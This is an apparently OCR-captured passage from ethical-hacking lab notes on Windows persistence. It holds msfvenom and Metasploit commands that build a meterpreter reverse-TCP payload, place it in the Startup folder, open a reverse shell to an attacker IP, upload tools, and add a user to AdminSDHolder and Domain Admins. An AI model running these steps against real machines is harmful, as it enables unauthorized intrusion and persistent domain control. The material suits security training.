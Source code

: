 	upload /home/attacker/payload.exe
	
Restart the Windows 11 machine. open another terminal window with root privileges:

	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.1.13
	set lport 8080
	exploit

restart the Windows machine so that the malicious file that is placed in the startup folder is executed.


Whenever the Admin restarts the system, a reverse shell is opened to the attacker until the payload is detected by the administrator.

Thus attacker can maintain persistence on the target machine using misconfigured Startup folder.


### Maintain Domain Persistence by Exploiting Active Directory Objects

AdminSDHolder is an Active Directory container with the default security permissions, it is used as a template for AD accounts and groups, such as Domain Admins, Enterprise Admins etc. to protect them from unintentional modification of permissions.

If a user account is added into the access control list of AdminSDHolder, the user will acquire "GenericAll" permissions which is equivalent to domain administrators.


Create the exploit:

	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Exploit.exe

And share it via '/var/www/html/share' (http://10.10.1.13/share/)

	msfconsole
	> use exploit/multi/handler
	> set payload windows/meterpreter/reverse_tcp
	> set lhost 10.10.1.13
	> set lport 444
	> run

Execute the exploit on the target machine.

Upload the PowerTools-Master:

	meterpreter > getuid	# Administrator
	meterpreter > upload -r /home/attacker/PowerTools-master C:\\Users\\Administrator\\Downloads
	meterpreter > shell
	cd C:\Windows\System32
	powershell

As we have access to PowerShell access with admin privileges, we can add a standard user Martin in the CEH domain to the AdminSDHolder directory and from there to the Domain Admins group, to maintain persistence in the domain.
